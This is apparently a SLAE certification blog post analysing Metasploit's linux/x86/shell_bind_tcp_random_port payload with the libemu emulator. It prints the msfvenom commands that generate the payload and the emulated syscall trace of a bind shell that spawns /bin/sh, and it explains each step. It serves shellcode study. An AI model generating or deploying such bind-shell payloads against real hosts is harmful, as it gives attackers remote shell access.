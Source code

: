 ```yaml
---
layout: post
title: "Analyzing Metasploit linux/x86/shell_bind_tcp_random_port module using Libemu"
date: 2017-05-06 12:00:00
share: true
comments: true
tags: shellcoding exploitation slae
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 5.2_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---
  
In the second part of assignment 5 in SLAE, I'll be analyzing the `linux/x86/shell_bind_tcp_random_port` module using Libemu.  


## 1\. Setting payload parameters

  
First let's check the options for this module.  

```console
root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port --payload-options  
Options for payload/linux/x86/shell_bind_tcp_random_port:  
  
  
       Name: Linux Command Shell, Bind TCP Random Port Inline  
     Module: payload/linux/x86/shell_bind_tcp_random_port  
   Platform: Linux  
       Arch: x86  
Needs Admin: No  
 Total size: 57  
       Rank: Normal  
  
Provided by:  
    Geyslan G. Bem <geyslan@gmail.com>  
  
Description:  
  Listen for a connection in a random port and spawn a command shell.   
  Use nmap to discover the open port: 'nmap -sS target -p-'.  
```    

  
I skipped over the advanced settings as they won't be discussed in this post. Lucky for us, this payload doesn't require any options as it will bind to the local IP and choose a port randomly (you'll use nmap to find that port).  
  
---


## 2\. Analyzing payload with libemu

After you install `libemu` (you might need to install a few packages like `autoconf` and `libtool`) let's pipe the raw output to ScTest (Iterate 1000 times with verbose output).

```console
root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port -f raw | ./sctest -vvv -Ss 10000  
verbose = 3  
No platform was selected, choosing Msf::Module::Platform::Linux from the payload  
No Arch selected, selecting Arch: x86 from the payload  
No encoder or badchars specified, outputting raw payload  
Payload size: 57 bytes  
```

```cpp
int socket (  
     int domain = 2;  
     int type = 1;  
     int protocol = 0;  
) =  14;  
int listen (  
     int s = 14;  
     int backlog = 0;  
) =  0;  
int accept (  
     int sockfd = 14;  
     sockaddr_in * addr = 0x00000000 =>   
         none;  
     int addrlen = 0x00000002 =>   
         none;  
) =  19;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 14;  
) =  14;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 13;  
) =  13;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 12;  
) =  12;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 11;  
) =  11;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 10;  
) =  10;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 9;  
) =  9;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 8;  
) =  8;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 7;  
) =  7;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 6;  
) =  6;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 5;  
) =  5;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 4;  
) =  4;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 3;  
) =  3;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 2;  
) =  2;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 1;  
) =  1;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 0;  
) =  0;  
int execve (  
     const char * dateiname = 0x00416fb6 =>   
           = "/bin//sh";  
     const char * argv[] = [  
           = 0xffffffff =>   
             none;  
     ];  
     const char * envp[] = 0x00000000 =>   
         none;  
) =  0;  
```    

  
Lots of debug info, but let's focus on the syscalls being made. To make it easier, sctest allows us to create a visual representation of the flow.  

```console
root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port -f raw | ./sctest -vvv -Ss 10000 -G tcp_random_port.dot  
  
.. redacted..  
  
root@kali:~/Desktop/libemu/tools/sctest# ls  
dot.c        Makefile.in  sctest          sctest-sctestmain.o  tests.c  
dot.h        nanny.c      sctest-dot.o    sctest-tests.o       tests.h  
Makefile     nanny.h      sctestmain.c    sctest-userhooks.o   userhooks.c  
Makefile.am  options.h    sctest-nanny.o  tcp_random_port.dot  userhooks.h  
root@kali:~/Desktop/libemu/tools/sctest# dot tcp_random_port.dot -T png > tcp_random_port.png  
```    

[![](http://i.imgur.com/MH3L6qb.png)](http://i.imgur.com/MH3L6qb.png)

---

#### 1\. `socket()`

```cpp
int socket (  
     int domain = 2;  
     int type = 1;  
     int protocol = 0;  
) =  14;  
```    

Same call we made for both bind and reverse shell previously, creating a socket that supports TCP communication, sockfd returned is 14.

#### 2\. `listen()`

```
int listen (  
     int s = 14;  
     int backlog = 0;  
) =  0;  
```

Next, it starts a listener for incoming connections on sockfd. Note: `bind()` is not required and a random port is picked. Instead you'll need to scan the host for open ports. More info here: http://stackoverflow.com/questions/12763268/why-is-bind-used-in-tcp-why-is-it-used-only-on-server-side-and-not-in-client  

---

#### 3\. `accept()`

```cpp
int accept (  
     int sockfd = 14;  
     sockaddr_in * addr = 0x00000000 =>   
         none;  
     int addrlen = 0x00000002 =>   
         none;  
) =  19;  
```

When there's an incoming connection on the socket created earlier, accept it without storing the client data `sockaddr_in`. New sockfd is 19.  

---

#### 4\. `dup2()`

Next, the traffic is redirected to the newly created socket (19) by calling `dup2()`, which will duplicate the STDIN,STDOUT and STDERR to the socket. Notice that there's a loop using ECX as an index, ECX's value is pulled from the latest value pushed onto stack.  
  
After `accept()`, there's a `POP ECX` command, which will now contain the value last pushed into stack. If you scroll up you'll find that it was a `PUSH EAX`.
EAX contains `sockfd` returned from `socket()`. This allows us to use a small number without worrying too much about looping too much.  
  
Of course, this logic any error check, but you don't have that luxury while shellcoding.  

---

#### 5\. `execve()`

  
This part is simple, it's simply calls a `/bin/sh` shell.  
  
\- Abatchy

